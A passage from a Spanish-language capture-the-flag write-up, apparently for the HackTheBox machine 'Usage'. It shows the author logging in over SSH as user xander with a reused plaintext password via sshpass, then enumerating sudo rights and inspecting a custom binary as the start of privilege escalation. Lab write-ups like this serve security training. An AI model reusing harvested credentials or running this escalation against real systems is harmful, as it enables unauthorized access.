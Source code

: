 ```bash
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

Probamos de comprobar si estas credenciales se reutilizan para el usuario `xander`. Accedemos finalmente al equipo a través de `SSH` con las credenciales encontradas.

```bash
❯ sshpass -p '3nc0d3d_pa$$w0rd' ssh xander@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

...[snip]...

xander@usage:~$ whoami
xander
```

## Privilege Escalation

### Abusing sudoers privilege

Revisando si el usuario `xander` dispone de algún privilegio de `sudoers`, nos encontramos que puede ejecutar como `sudo` el binario llamado `/usr/bin/usage_management`.

```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

### Analyzing binary with strings and GHIDRA

Comprobamos que el binario `usage_managment` se trata de un ejecutable `ELF`. Por otro lado, verificamos el hash `MD5` del binario y verificamos en `Virus Total` que al parecer se trata de un binario personalizado para la máquina `Usage`.

```bash
xander@usage:~$ file /usr/bin/usage_management
/usr/bin/usage_management: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped

xander@usage:~$ md5sum /usr/bin/usage_management
f3c1b2b1ccacc24cc7ed8f3ad62bb7c6  /usr/bin/usage_management
```
